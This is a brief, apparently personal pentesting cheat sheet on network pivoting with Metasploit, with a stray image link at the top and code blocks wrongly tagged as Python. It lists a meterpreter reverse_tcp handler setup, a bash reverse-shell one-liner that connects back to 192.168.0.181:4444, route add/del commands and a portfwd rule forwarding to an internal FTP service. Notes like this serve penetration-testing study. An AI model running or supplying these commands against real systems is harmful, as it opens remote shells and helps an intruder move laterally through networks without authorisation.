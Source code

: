 ### Pivoting 

use /multi/handler

```python

payload/linux/x86/meterpreter/reverse_tcp

```
run
```python
sh -i >& /dev/tcp/192.168.0.181/4444 0>&1
```

route add
```python
route add 10.0.2.4 255.255.255.0 2
```

```python
	route del
```

pivoting by portforgarding 
```python
portfwd add -l 7777 -p 21 -r 10.0.2.5
```
